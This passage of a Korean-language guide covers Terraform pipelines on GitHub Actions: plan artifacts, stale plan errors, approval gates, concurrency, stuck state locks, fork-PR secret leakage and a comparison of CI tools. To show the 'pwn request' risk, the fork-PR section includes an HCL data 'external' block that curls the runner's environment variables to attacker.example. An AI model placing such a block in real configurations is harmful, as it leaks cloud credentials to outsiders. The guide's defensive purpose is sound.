아티팩트는 보안상 약점이기도 하다. plan 파일에는 변수 값과 리소스 속성이 들어 있고, `sensitive` 값도 파일 안에서는 평문이다. 저장소 읽기 권한이 있는 사람은 누구나 아티팩트를 내려받을 수 있다. 공개 저장소라면 아예 쓰지 않는다. 비공개 저장소여도 보존 기간을 짧게(`retention-days: 3`) 잡거나, 아티팩트 대신 KMS 로 암호화한 S3 버킷에 `s3://acme-tfplans/<run_id>/prod.tfplan` 형태로 올려 plan role 에게만 쓰기를 준다.

`plan-prod` 의 마지막 줄 `[ "$code" -ne 1 ]` 은 exit code 가 1(오류)일 때만 step 을 실패시킨다. 2(변경 있음)는 정상 흐름이다. `-detailed-exitcode` 를 쓰고도 이 처리를 빼먹으면 변경이 있을 때마다 job 이 빨갛게 떠서, 팀이 실패 알림을 무시하는 습관이 생긴다.

## stale plan 오류

저장된 plan 은 만들어진 시점의 state 를 기억한다. 그 사이에 같은 state 를 다른 Terraform 실행이 바꿔 놓으면 apply 가 거부된다.

```
Error: Saved plan is stale

The given plan file can no longer be applied because the state was changed
by another operation after the plan was created.
```

정확한 문구는 버전에 따라 조금씩 다르다. 원인은 state 의 serial 과 lineage 가 plan 생성 때와 달라졌다는 것이다. state 는 쓰일 때마다 serial 이 1씩 올라간다.



이 오류를 만나는 전형적인 경우는 승인 대기 시간이 길 때다. prod plan 을 올려놓고 승인자가 반나절 뒤에 눌렀는데, 그 사이 다른 경로(로컬에서 한 `terraform apply`, 다른 워크플로, 같은 state 를 쓰는 다른 저장소)가 state 를 건드렸다. 이 문서의 구성에서는 `terraform-apply` concurrency 그룹이 같은 저장소의 다른 apply 를 직렬화하므로, 오류가 나면 저장소 밖에서 state 를 바꾼 것이다. 원인을 찾을 때 단서가 된다.

대응은 단순하다. 실패한 run 을 re-run 하지 않는다. re-run 은 같은 아티팩트를 다시 쓰는 것이 아니라 job 만 다시 돌리는 것이라, 아티팩트가 남아 있으면 같은 오류가 반복된다. 새 run 을 만들어(빈 커밋이나 `workflow_dispatch`) 처음부터 plan 하고 다시 승인받는다.

stale 오류를 오해하기 쉬운 점이 하나 있다. 이 검사는 **state 의 변경**만 본다. 누가 콘솔에서 보안 그룹 규칙을 지웠거나 리소스를 수동으로 삭제한 변경은 state 에 반영되지 않으므로 감지하지 못한다. 그런 변경이 plan 과 apply 사이에 일어나면 stale 오류 대신 apply 도중 API 오류가 난다. 존재하지 않는 리소스를 in-place update 하려다 `NotFound` 가 나거나, 이미 존재하는 이름을 만들려다 `AlreadyExists` 가 나는 식이다. 드리프트는 plan 과 apply 사이의 문제가 아니라 별도로 감시해야 하는 문제이고, 스케줄 workflow 에서 `terraform plan -detailed-exitcode` 를 하루 한 번 돌려 exit code 2 가 나오면 알림을 주는 정도로 시작한다.

## 환경별 승인 게이트

GitHub 의 environment 가 승인 지점을 만든다. job 에 `environment: prod` 를 적으면 그 environment 의 보호 규칙이 충족될 때까지 job 이 시작되지 않는다. 위 apply workflow 에서 승인이 걸리는 곳은 `apply-prod` 하나뿐이고, `plan-prod` 는 승인 전에 돌아 결과를 Job Summary 에 남긴다. 승인자는 그 요약을 보고 판단한다.



dev 를 먼저 적용하고 성공해야 prod 로 넘어가게 `needs` 로 묶은 것이 이 구성의 안전장치다. dev 에서 깨지는 변경은 prod 승인 요청이 만들어지기 전에 멈춘다. 다만 dev 와 prod 의 구성이 크게 다르면(리소스 수, 인스턴스 타입, 계정 정책) dev 의 성공이 prod 의 성공을 보장하지 않는다. KMS 키 정책이나 SCP 처럼 prod 계정에만 걸린 제약은 prod apply 에서야 드러난다.

environment 설정에서 실제로 의미가 있는 항목은 아래 정도다.

| 설정 | 값 | 이유 |
|---|---|---|
| Required reviewers | 인프라 담당 2명 이상 | 승인 요청이 한 사람에게만 가면 휴가 때 배포가 막힌다 |
| Prevent self-review | 켠다 | 머지한 사람이 자기 변경을 승인하면 게이트가 사라진다 |
| Deployment branches | `main` 만 | PR 브랜치에서 `environment: prod` 를 적어도 job 이 시작되지 않는다 |
| Wait timer | dev 는 없음, prod 는 필요하면 몇 분 | 승인 직후 취소할 수 있는 시간이 필요한 조직에서 쓴다 |

private 저장소에서 required reviewers 를 쓸 수 있는지는 GitHub 요금제에 달려 있다. 플랜에 따라 public 저장소나 상위 플랜에서만 되는 경우가 있으니 도입 전에 확인한다. 안 되는 플랜이면 `workflow_dispatch` 에 `environment` 입력을 두고 수동 실행으로 바꾸는 대안이 있지만, 승인 기록이 약해진다.

승인을 대기하는 run 은 concurrency 그룹을 계속 점유한다. 한 건이 승인을 기다리는 동안 들어온 머지는 대기열로 간다. 승인 대기는 30일 뒤 만료되며, 만료까지 방치된 승인 요청이 뒤의 모든 apply 를 막는 일이 실제로 생긴다. 승인자에게 알림이 가도록 환경 승인 알림을 Slack 에 연결해 두거나, 며칠 지난 대기 run 을 취소하는 정기 점검을 둔다.

## 동시 실행 방지와 남는 락

동시 실행을 막는 장치는 두 겹이다. GitHub 의 `concurrency` 그룹이 workflow 수준에서 한 번에 하나만 돌게 하고, Terraform 의 state 락이 그 바깥(로컬 실행, 다른 저장소, 다른 CI)까지 막는다. 하나만 있으면 구멍이 생긴다. concurrency 그룹은 이 저장소의 workflow 만 알고, state 락은 대기 없이 바로 실패한다.

concurrency 에는 알아둘 동작이 있다. 같은 그룹에 run 이 이미 실행 중이고 `cancel-in-progress: false` 일 때, 새 run 은 pending 상태로 기다린다. 그런데 pending 은 그룹당 하나만 유지된다. 그 상태에서 또 다른 run 이 들어오면 앞서 기다리던 pending run 이 **취소**되고 새 것이 그 자리를 차지한다.

머지가 A, B, C 순으로 연달아 들어오면 A 가 실행되는 동안 B 는 대기하다가 C 가 오면 취소된다. 이 구성은 main 에서 매번 새로 plan 을 만들기 때문에 C 의 plan 이 B 의 변경까지 포함해서 문제가 없다. 만약 PR 단계에서 만든 plan 파일을 머지 후에 그대로 apply 하는 구조였다면 B 의 plan 은 영영 적용되지 않았을 것이다. PR plan 을 리뷰용으로만 쓰고 apply 용 plan 은 main 에서 만드는 이유 중 하나다.

아래 시퀀스는 A, B, C 가 연달아 머지될 때 실행 슬롯과 pending 슬롯이 어떻게 바뀌는지 보여준다. B 가 C 에게 자리를 내주고 사라지는 지점을 보면 된다.



apply 쪽 그룹의 `cancel-in-progress` 는 반드시 `false` 로 둔다. `true` 로 두면 새 머지가 들어오는 순간 진행 중인 apply 가 취소된다.

### 취소된 job 이 남기는 락

`cancel-in-progress: false` 로 막아도 락은 남는다. 사람이 Actions 화면에서 Cancel 을 누르거나, `timeout-minutes` 가 지나거나, 러너가 죽는 경우다.

러너는 취소 요청을 받으면 프로세스에 SIGINT 를 보내고, 몇 초(러너 구현상 약 7.5초) 안에 끝나지 않으면 SIGTERM, 그다음 SIGKILL 을 보낸다. Terraform 은 첫 SIGINT 를 받으면 진행 중이던 리소스 작업을 마무리하고 락을 풀며 종료하려고 한다. 그런데 RDS 를 만드는 중이라면 마무리에 몇 분이 걸린다. 러너는 기다려주지 않고 SIGKILL 을 보내고, 프로세스는 락을 해제하지 못한 채 죽는다.

신호가 오가는 순서와 락이 남는 지점은 아래와 같다. 마지막 두 줄이 위 문단의 결과다.



이때 남는 것은 락만이 아니다. 두 가지가 같이 생긴다.

- AWS 에는 리소스가 만들어졌는데 state 에 기록되지 않은 경우. Terraform 은 state 를 주기적으로 저장하기 때문에 마지막 저장 이후에 만든 리소스는 SIGKILL 로 사라진다. 다음 apply 에서 `AlreadyExists` 나 `EntityAlreadyExists` 가 나고, `terraform import` 로 state 에 넣어줘야 한다.
- state 락이 남아 다음 run 이 시작하자마자 실패하는 경우.

```
Error: Error acquiring the state lock

...

Lock Info:
  ID:        6b1c1d9e-3c1f-8d3a-2e3b-0d2f6f4e9a11
  Path:      acme-tfstate/prod/terraform.tfstate
  Operation: OperationTypeApply
  Who:       runner@fv-az1234-567
  Version:   1.11.4
  Created:   2026-11-05 03:12:44.123456789 +0000 UTC
  Info:
```

락을 풀기 전에 확인할 것은 이 락을 쥔 프로세스가 정말 죽었는지다. `Who` 의 러너 이름과 `Created` 시각을 보고 Actions 에서 해당 run 이 실제로 끝났는지 확인한다. 아직 도는 apply 의 락을 풀면 두 apply 가 같은 state 를 동시에 쓰고, 이건 락 하나 남은 것보다 훨씬 복구가 어렵다.

```bash
# 로컬에서, state 버킷에 접근 가능한 자격 증명으로
cd infra/envs/prod
terraform init
terraform force-unlock 6b1c1d9e-3c1f-8d3a-2e3b-0d2f6f4e9a11
```

S3 네이티브 락을 쓰는 구성이라면 락의 실체는 state 와 같은 경로에 `.tflock` 이 붙은 객체(`prod/terraform.tfstate.tflock`)다. `force-unlock` 이 안 먹는 비상 상황에서는 이 객체를 지우는 방법도 있지만, 락 ID 와 소유자를 확인하지 않고 지우는 것이므로 마지막 수단으로 둔다.

락을 푼 다음에는 `terraform plan` 으로 state 와 실제 인프라가 어긋난 곳이 없는지 먼저 본다. 어긋난 곳이 있으면 import 로 맞추고 나서 정상 흐름으로 돌아간다.

운영 쪽에서 줄일 수 있는 부분이 몇 가지 있다. apply 의 `timeout-minutes` 는 최악의 apply 시간보다 넉넉하게 잡는다. 너무 짧으면 정상 진행 중인 apply 가 타임아웃으로 죽는다. `-lock-timeout=5m` 은 락이 잠깐 잡혀 있을 때 바로 실패하지 않고 기다리게 한다. 그리고 apply 가 도는 run 은 Cancel 을 누르기 전에 무엇을 만드는 중인지 로그를 보고, 오래 걸리는 리소스를 만드는 중이면 끝날 때까지 기다린다.

## fork PR과 secret 유출

공개 저장소나 외부 기여를 받는 저장소에서 가장 위험한 workflow 설정은 `pull_request_target` 에 PR 코드를 체크아웃하는 조합이다. GitHub Security Lab 이 "pwn request" 라고 부르는 유형이다.

기본 `pull_request` 이벤트는 fork 에서 온 PR 에 secret 을 주지 않고 `GITHUB_TOKEN` 도 읽기 전용으로 제한한다. OIDC 토큰도 발급되지 않아 `configure-aws-credentials` 가 실패한다. 그래서 fork PR 의 plan 이 빨갛게 뜨고, 담당자는 "fork PR 도 plan 이 돌게 해 달라"는 요청을 받는다. 가장 쉬운 해결처럼 보이는 것이 `pull_request_target` 으로 바꾸는 것이다. 이 이벤트는 base 저장소의 컨텍스트에서 돌아서 secret 과 쓰기 권한이 주어지기 때문이다.

두 이벤트가 fork PR 에 주는 권한과 그 결과를 나란히 보면 아래와 같다. 오른쪽 가지가 위험한 경로다.



```yaml
# 이렇게 하면 안 된다
on:
  pull_request_target:

jobs:
  plan:
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # fork 의 코드를 받아서
      - run: terraform init && terraform plan                 # 권한이 있는 상태로 실행
```

여기서 문제가 되는 이유는 `terraform plan` 이 코드를 실행하기 때문이다. plan 은 선언만 읽는 것처럼 보이지만 `data "external"` 데이터 소스는 plan 중에 지정한 프로그램을 실행한다.

```hcl
data "external" "innocent" {
  program = ["bash", "-c", "curl -s -d \"$(env)\" https://attacker.example/collect >&2; echo '{}'"]
}
```

PR 한 건에 이 블록이 들어 있으면 plan 단계에서 러너의 환경 변수가 외부로 나간다. `init` 단계에서도 모듈 소스와 provider 소스를 PR 코드가 정할 수 있어서 같은 위험이 있다. 이 시점에 러너에는 AWS 자격 증명이 올라와 있다.

OIDC 를 쓰는 환경에서도 방심할 수 없다. `pull_request_target` 이벤트의 `sub` 는 PR 브랜치가 아니라 base 브랜치(`ref:refs/heads/main`)를 가리킨다. 위 구성에서 plan role 의 trust policy 가 `ref:refs/heads/main` 을 허용하고 있으니 이 job 은 plan role 을 받는다. read-only 라도 앞에서 말한 대로 state 를 읽을 수 있다. 만약 apply role 이 브랜치 기준(`ref:refs/heads/main`)으로 열려 있었다면 이 경로로 apply 권한까지 넘어간다. apply role 을 `environment:prod` 로 묶어 두는 이유가 이것이다.

이 시나리오는 저장소가 잘못 설정되어 실제로 터지는 형태이고, 같은 구조의 유출은 Terraform 에 한정되지 않고 CI 에서 외부 코드를 실행하는 모든 곳에서 일어난다. 대응은 층을 나누는 것이다.

- fork PR 에서는 secret 이 필요 없는 검사만 돌린다. `terraform fmt -check`, `terraform init -backend=false`, `terraform validate`, tflint, 정적 분석은 자격 증명 없이 돈다. 이 검사에서도 `init` 이 외부 모듈을 받아오긴 하지만 실행할 자격 증명이 없으므로 유출될 것도 없다.
- plan 이 꼭 필요하면 maintainer 가 fork 의 변경을 저장소 안의 브랜치로 옮겨 push 한다. 그 시점에 코드를 읽고 검토한다.
- 비공개 인프라 저장소는 fork 자체를 막는다. Settings 의 fork PR 워크플로 실행 정책에서 외부 협력자의 PR 은 승인 후에만 실행되게 한다.
- `.github/workflows/` 와 `infra/` 에 CODEOWNERS 를 걸어 workflow 변경이 인프라 담당자의 리뷰 없이 머지되지 않게 한다. 같은 저장소 안의 브랜치도 workflow 파일을 고쳐서 plan role 을 받을 수 있기 때문에 이 방어선이 필요하다.

## 도구 선택 기준

직접 만든 GitHub Actions 파이프라인이 한계에 닿는 지점은 비슷하다. 환경이 수십 개로 늘어서 workflow 가 복사본으로 불어나거나, 정책 검사(특정 인스턴스 타입 금지, 태그 필수)가 필요해지거나, 락과 실행 이력을 한곳에서 보고 싶어질 때다. 그때 Atlantis, HCP Terraform, Spacelift 가 후보에 오른다.

| 항목 | GitHub Actions 직접 구성 | Atlantis | HCP Terraform | Spacelift |
|---|---|---|---|---|
| 실행 위치 | GitHub 러너 | 직접 운영하는 서버 | HashiCorp 의 SaaS 러너 (agent 로 자체 실행 가능) | SaaS 러너 (private worker 가능) |
| apply 시점 | 머지 후 | 기본은 머지 전. PR 코멘트 `atlantis apply` | 머지 후 승인 (VCS 연동 workspace) | 머지 후 tracked run |
| PR 의 plan | 직접 구현 | 자동 plan, 코멘트로 결과 | speculative plan, PR 상태 체크 | proposed run |
| 동시 실행 제어 | concurrency 그룹 + state 락 | PR 단위로 디렉토리 락을 잡고 머지나 닫을 때 해제 | workspace 별 run 큐 | stack 별 run 큐 |
| 정책 검사 | OPA(conftest) 등을 직접 붙임 | conftest 연동 | Sentinel, OPA (상위 요금제) | OPA(Rego) 내장 |
| AWS 인증 | OIDC (이 문서 구성) | 서버의 IAM role. 서버가 곧 권한 | 동적 자격 증명(OIDC) | OIDC 또는 role 위임 |
| 드리프트 감지 | 스케줄 workflow 직접 | 기본 없음 | health assessment (요금제별) | 내장 |
| 비용 | 러너 시간 | 서버 운영 인력과 호스팅 | 관리 리소스 수 기준 과금 | 유료 |
| 맞는 경우 | 저장소 몇 개, 환경 2~3개 | 자체 호스팅 필수, 비용 민감 | state 와 실행 이력을 한 플랫폼에서 관리 | 멀티 도구(Terraform, Pulumi, Ansible)와 정책 중심 |

요금과 기능 구분은 바뀐 이력이 있다. HCP Terraform 은 과금 기준이 바뀐 적이 있고 Spacelift 도 요금제별 기능이 갈린다. 도입 전에 현재 가격표와 기능 표를 확인한다.

아래 도식은 이 문서의 구성과 Atlantis 의 순서 차이를 비교한다. 머지가 apply 앞에 오는지 뒤에 오는지, 락이 언제 풀리는지를 보면 된다.



Atlantis 는 흐름이 다르다는 점을 먼저 이해해야 한다. 기본이 **apply 후 머지**다. PR 안에서 `atlantis plan` 과 `atlantis apply` 를 코멘트로 실행하고, apply 가 끝난 뒤에 머지한다. 이 방식은 main 이 항상 실제 인프라와 일치한다는 장점이 있지만, 머지 전에 apply 가 일어나므로 apply 중 실패하면 main 과 인프라가 어긋나는 것이 아니라 PR 이 열린 채로 다시 시도하게 된다. 같은 디렉토리를 건드리는 두 PR 은 먼저 plan 한 쪽이 락을 쥐고 있는 동안 다른 쪽이 기다린다. 그 락은 PR 을 머지하거나 닫을 때까지 유지되므로, 오래 열려 있는 PR 하나가 같은 디렉토리의 다른 PR 을 막는 일이 생긴다. 서버가 apply 자격 증명을 가지고 있으니, `apply_requirements` 에 `approved` 와 `mergeable` 을 넣어 두고 서버 자체에 대한 접근을 엄격히 관리해야 한다. `allow_custom_workflows` 를 켜면 저장소의 `atlantis.yaml` 이 서버에서 임의 명령을 실행하게 할 수 있어서 기본값을 유지하는 편이 안전하다.

HCP Terraform 은 state, 락, 실행, 이력, 정책을 한 곳에서 맡아 주지만, 로컬에서 자유롭게 `terraform apply` 하던 방식을 쓸 수 없게 된다. 기존 S3 backend 에서 옮길 때는 workspace 구조와 변수 관리 방식을 새로 정해야 해서 이관 비용이 든다.

Spacelift 는 stack 간 의존성과 정책 기반 승인이 강점이고, 대신 별도 제품을 하나 더 운영 체계에 들이는 것이다.

선택은 규모보다 **무엇이 아프냐**로 정한다. 환경이 적고 팀이 작으면 이 문서의 구성으로 충분하다. 복사된 workflow 가 늘어나서 관리가 어려우면 reusable workflow 로 먼저 합쳐 본다. 정책 검사와 드리프트 감지, 감사 기록이 요구사항으로 올라오기 시작하면 그때 도구를 검토한다.
